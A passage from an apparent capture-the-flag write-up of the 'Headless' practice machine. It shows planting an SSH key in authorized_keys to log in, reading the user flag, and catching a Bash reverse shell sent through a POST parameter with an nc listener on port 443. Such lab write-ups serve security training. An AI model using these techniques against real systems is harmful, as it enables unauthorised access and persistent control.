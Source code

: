 

I need to put the `key.pub` contents into an `authorized_keys` file:

![](/img/image-20240711153948859.png)

Now I'll connect with SSH:



    oxdf@hacky$ ssh -i key dvir@10.10.11.8
    Linux headless 6.1.0-18-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.76-1 (2024-02-01) x86_64
    ...[snip]...
    Last login: Thu Jul 11 21:15:45 2024 from 10.10.14.6
    dvir@headless:~$



And I can read `user.txt`:



    dvir@headless:~$ cat user.txt
    c857e232************************



#### Shell Via Reverse Shell

I'll use a simple Bash reverse shell (which I cover in detail in [this
video](https://www.youtube.com/watch?v=OjkVep2EIlw)):

![](/img/image-20240711154231029.png)

I have manually encoded the `&` characters to `%26` so that they aren't
confused for the start of a new POST parameter. I'll start `nc`
listening on port 443, and send this. It hangs. At `nc`:



    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.8 39124
    bash: cannot set terminal process group (1347): Inappropriate ioctl for device
    bash: no job control in this shell
    dvir@headless:~/app$ 
